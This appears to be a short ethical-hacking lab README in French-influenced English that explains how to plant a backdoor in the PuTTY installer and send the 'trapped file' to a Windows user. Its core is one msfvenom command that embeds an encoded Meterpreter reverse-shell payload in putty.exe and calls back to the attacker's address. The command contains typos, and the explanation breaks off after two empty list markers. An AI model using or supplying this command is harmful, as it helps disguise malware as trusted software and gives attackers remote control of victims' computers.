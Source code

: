 # Secu_03
### `Ethical hacking`
we are going to use a trapped file to send to a windows user.
`Lab: backdoor`

* Install putty<hr>
program for remote connections
download here <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html</a>
<hr>
we will link our putty.exe file to our backdoor.

```terminal
msfvenom -a x86 --plateform windows -x putty.exe -k -p windows/meterpreter/reverse_tpc lhost=your_ip_adresse lport=3232 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o hello.exe
```
I explain to you
* msfvenom a metasploit module that will help us to : 
[1]
[2]
